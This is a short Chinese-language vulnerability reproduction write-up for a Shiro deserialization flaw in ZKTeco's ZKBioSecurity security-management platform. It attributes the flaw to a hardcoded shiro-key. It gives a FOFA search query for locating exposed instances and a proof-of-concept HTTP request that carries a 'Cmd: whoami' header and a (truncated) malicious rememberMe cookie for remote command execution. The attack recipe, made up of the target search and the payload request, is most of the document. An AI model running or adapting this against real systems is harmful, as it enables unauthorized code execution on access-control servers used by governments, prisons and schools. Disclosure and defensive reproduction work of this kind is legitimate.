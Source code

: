 
# Zkteco百傲瑞达安防管理系统平台 Shiro反序列化漏洞复现

### 0x01 产品简介

  百傲瑞达是基于[生物识别](https://so.csdn.net/so/search?q=%E7%94%9F%E7%89%A9%E8%AF%86%E5%88%AB&spm=1001.2101.3001.7020)技术打造的一站式安防软件服务平台，平台涵盖人事管理、门禁管理、梯控管理、访客管理、视频联动、系统设置等模块，门禁配合通道管理设备可实现对出入口进行控制，可以深度应用于政府、企业、监狱、学校、智慧社区等多个安防需求领域

### 0x02 漏洞概述

 Zkteco 百傲瑞达安防管理系统平台存在 shiro 反序列化漏洞，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 复现环境

FOFA：title=="ZKBioSecurity" && body="Automatic login within two weeks"  

![](assets/1701669921-55dbd49b52bfd52c5a81242678cf56d8.png)

### 0x04 漏洞复现

PoC

```cobol
GET / HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cmd: whoami
Cookie: rememberMe=kPH+bIxk5D2deZiIxcaaaExg7EWKTeFZkFrgR4FfAGBNnoSgHEfKEsBMQECJwt+ceZp4VwLFx5XJDaWao1Fbavx7SZ+t7zGnhcx3V90PiU6V/R+669FmF/RmR
```
